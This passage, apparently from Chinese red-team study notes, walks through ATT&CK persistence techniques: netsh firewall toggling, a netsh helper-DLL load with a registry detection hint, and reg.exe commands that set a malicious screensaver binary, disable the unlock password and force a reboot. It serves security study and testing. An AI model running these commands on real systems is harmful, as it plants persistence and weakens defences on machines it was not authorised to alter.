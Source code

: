 ```
开/关防火墙：

netsh firewall set opmode enable

netsh firewall set opmode disable
```
关于netsh persistence的项目地址`https://github.com/outflanknl/NetshHelperBeacon`
添加helper dll
```bash
netsh add helper c:\test\netshtest.dll
```
在注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh`中便添加上去了dll,helper dll添加成功后，每次调用netsh，均会加载c:\test\netshtest.dll

检测: 查看注册表如下位置`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh`

win10成功复现
### T1100 - Web Shell
这个就是在有web服务的基础上添加一个webshell,不再演示

win10成功复现
### T1023 - Shortcut Modification
红队可以使用快捷方式运行他们的程序来persistence,他们可以使用[Masquerading](https://attack.mitre.org/techniques/T1036)来使它看起来像一个正常的程序,攻击者也可以修改快捷方式的路径,从而运行到其他程序
###### 测试1 Shortcut Modification
这个没有成功复现
### T1180 - Screensaver
`.scr`是屏幕保护程序的后缀名,屏幕保护程序`scrnsave.scr`的位置在`C:\Windows\System32\`和`C:\Windows\sysWOW64`,屏幕保护的注册表设置在`HKCU\Control Panel\Desktop`,他们可以以如下途径进行persistence

- SCRNSAVE.exe - set to malicious PE path
- ScreenSaveActive - set to '1' to enable the screensaver
- ScreenSaverIsSecure - set to '0' to not require a password to unlock
- ScreenSaveTimeout - sets user inactivity timeout before screensaver is executed

红队可以使用屏幕保护程序persistence恶意程序(当用户一段时间没有对电脑操作,触发了屏幕保护程序)
###### 测试1 Set Arbitrary Binary as Screensaver
```
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```
**没有成功复现**





### T1166 - Setuid and Setgid
对于setuid与setgid:文件权限的机制是Linux系统中的一大特色，除了我们现在所熟知的读（r）、写（w）、执行（x）权限外，还有三个比较特殊的权限，分别为：setuid、setgid和stick bit（粘滞位）:setuid的作用是“让执行该命令的用户以该命令拥有者的权限去执行”，setgid的意思和它是一样的，即让执行文件的用户以该文件所属组的权限去执行。
